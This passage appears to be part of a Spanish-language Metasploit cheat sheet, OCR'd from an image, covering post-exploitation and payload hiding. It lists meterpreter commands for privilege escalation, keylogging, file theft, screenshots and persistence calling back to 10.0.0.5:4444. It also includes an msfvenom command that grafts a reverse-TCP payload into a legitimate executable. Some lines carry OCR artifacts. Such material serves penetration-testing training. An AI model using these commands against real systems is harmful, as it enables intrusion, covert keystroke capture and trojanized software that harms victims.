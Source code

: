 6. Post-explotación

Descripción: Escalada de privilegios, recolección y persistencia.

# Información del sistema
meterpreter > sysinfo

# Subir/descargar ficheros
meterpreter > upload local_tool.exe C:\Windows\Temp\tool.exe
meterpreter > download C:\Ruta\log.txt ./log.txt

# Captura de pantalla\ nmeterpreter > screenshot

# Búsqueda de archivos
meterpreter > search -f *.docx

# Escalada de privilegios\ nmeterpreter > run post/windows/escalate/getsystem

# Keylogging\ nmeterpreter > keylog_start

# Persistencia\ nmeterpreter > run persistence -U -i 10 -p 4444 -r 10.0.0.5

7. Uso avanzado de Metasploit

Descripción: Ocultar payloads y usar Armitage.

# Injertar payload en ejecutable legítimo
msfvenom -x original.exe \
         -p windows/meterpreter/reverse_tcp \
         LHOST=10.0.0.5 LPORT=4444 \
         -k -f exe -o modificado.exe

Armitage:

Inicia PostgreSQL y Metasploit.

Ejecuta armitage.

Conecta y añade hosts con la GUI.

8. Recomendaciones finales

Aísla tus pruebas en VM.
